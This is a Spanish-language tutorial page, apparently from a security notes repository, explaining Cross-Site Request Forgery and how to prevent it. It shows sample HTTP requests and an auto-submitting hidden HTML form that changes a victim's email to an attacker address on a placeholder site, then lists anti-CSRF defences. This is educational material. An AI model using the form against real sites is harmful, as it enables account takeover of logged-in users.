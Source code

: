 [Volver al inicio](../Readme.md)
# CSRF (Cross Site Request Forgery)
## Introducción.
Muchas aplicaciones web utilizan algún método de autenticación para poder realizar operaciones sensibles/críticas tales como modificar la contraseña de acceso, cambio de correo electrónico, etc. Esta autenticación es a menudo realizada en base a sesiones de usuario, de forma que una vez autenticado, se genera una cookie que se almacena en el equipo de dicho usuario. El identificador de sesión que se guarda en la cookie, será enviado en cada una de las transacciones que se realicen en esa aplicación web.

De forma adicional, debemos saber que cuando nos conectamos a un sitio web, algunos de los recursos que utiliza, son cargados desde otro sitio, ya sean imágenes, fuentes de texto, etc. Esto significa que cuando nos logueamos en un sitio web, tanto las peticiones que nosotros realizamos como las que se utilizan para cargar los diferentes recursos del sitio web, van acompañadas de nuestro identificador de sesión. Esta particularidad, ayuda a que se consiga el ataque mediante CSRF.
No obstante, se necesitan algunas condiciones adicionales para que el ataque mediante CSRF sea efectivo.
## ¿Qué condiciones se deben cumplir para que el ataque tenga éxito?
- Evidentemente, el sitio debe ser vulnerable a CSRF.
- Utilizar estrategias de Phishing para engañar a la víctima.
- Se debe realizar una acción relevante, tal como cambiar la contraseña o modificar el correo electrónico.
- Que el sitio web gestione las sesiones en base a cookies y que la víctima esté logueada.
- Que el sitio web tenga una política de cookies "**SameSite**" débil.
- Que al realizar una acción relevante, como el cambio de contraseña, **NO se exija** algún dato impredecible (por ejemplo, que no se exija la contraseña actual).
## ¿Cómo funciona el ataque?
![Proceso ataque CSRF](_images/CSRF-Attack-Okta_2.png)

Imagen obtenida de https://www.okta.com/identity-101/csrf-attack/

En primer lugar, el atacante debe estudiar el funcionamiento del sitio web para entender cómo se realizan las peticiones y asegurarse de que es vulnerable a CSRF.

Imaginemos que el sitio vulnerable utiliza una petición como la que se muestra a continuación para el cambio de correo electrónico:

`https://sitiovulnerable.com/email/cambiar?email=usuarioLegitimo@sitiovulnerable.com`

Y que esto genera la petición HTTP:
```
POST /email/change HTTP/1.1
Host: sitiovulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Cookie: session=Merdf56yhujTFer612gvh8UjleursRgB

email=usuarioLegitimo@sitiovulnerable.com
```
El atacante debe engañar a la víctima mediante alguna estrategia de Phishing, simulando una notificación de la página web legítima, de forma que lo lleve a pulsar sobre un enlace que lo lleve a un sitio web fraudulento, realice una transacción oculta no deseada por la víctima y que beneficiará de alguna manera al atacante.

El HTML del sitio web falso podría ser así:
```html
<html>
    <body>
        <form action="https://sitiovulnerable.com/email/change" method="POST">
            <input type="hidden" name="email" value="atacante@baddomain.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
La petición HTTP generada, debido a la política débil de cookies SameSite, incluiría la cookie de usuario, aunque la petición solicitada por el atacante no pertenece a la web del sitio legítimo:
```
POST /email/change HTTP/1.1
Host: sitiovulnerable.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Cookie: session=Merdf56yhujTFer612gvh8UjleursRgB

email=atacante@baddomain.net
```
Lo que se ha conseguido es, mediante la sesión de usuario legítimo, modificar su propio correo, de forma que el atacante puede pedir un cambio de contraseña y cuando el sitio web envíe la petición por correo, no la enviará al usuario legítimo, sino al atacante, que podrá suplantar al usuario legítimo y realizar acciones en su nombre. Si el usuario es un administrador del sistema, el problema sería mucho más grave.
## Formas de prevenir un ataque CSRF
- Utilizar tokens anti-CSRF en lugar de cookies de sesión. El token será un valor **impredecible**, **aleatorio**, generado en el lado del servidor, por lo que el atacante, no podrá preveerlo para preparar una petición HTTP. Este token se suele enviar desde el servidor en un campo oculto del formulario HTML.
- Adoptar una política de cookies SameSite fuerte, de forma que el atacante no pueda incluir sus peticiones junto a las legítimas del sitio web objetivo.
- Realizar una nueva petición de autenticación para realizar las acciones más críticas, como el cambio de contraseña, transferir dinero, etc.
- Exigir datos impredecibles para el atacante, como por ejemplo, pedir la contraseña actual para realizar una cambio de contraseña.

## Bibliografía.
- PortSwigger. (s.f.). Cross-site request forgery (CSRF). https://portswigger.net/web-security/csrf
- Snyk Learn. (s.f.). Cross site request forgery (CSRF). https://learn.snyk.io/lesson/csrf-attack/
- KirstenS. (s.f.). Cross Site Request Forgery (CSRF). https://owasp.org/www-community/attacks/csrf
- Moradov, O. (27/04/2022). 3 Simple CSRF Examples: Understand CSRF Once and For All. Bright. https://brightsec.com/blog/csrf-example/
- Imperva. (s.f.). Cross site request forgery (CSRF) attack. https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
- Ranjan, R. (27/08/2022). Cross site request forgery (CSRF) attack. Medium. https://medium.com/@rajeevranjancom/cross-site-request-forgery-csrf-attack-6949edb9e405
- Andrzej Nidecki, T. (s.f.). Cross-site request forgery (CSRF). Invicti. https://www.invicti.com/learn/cross-site-request-forgery-csrf/
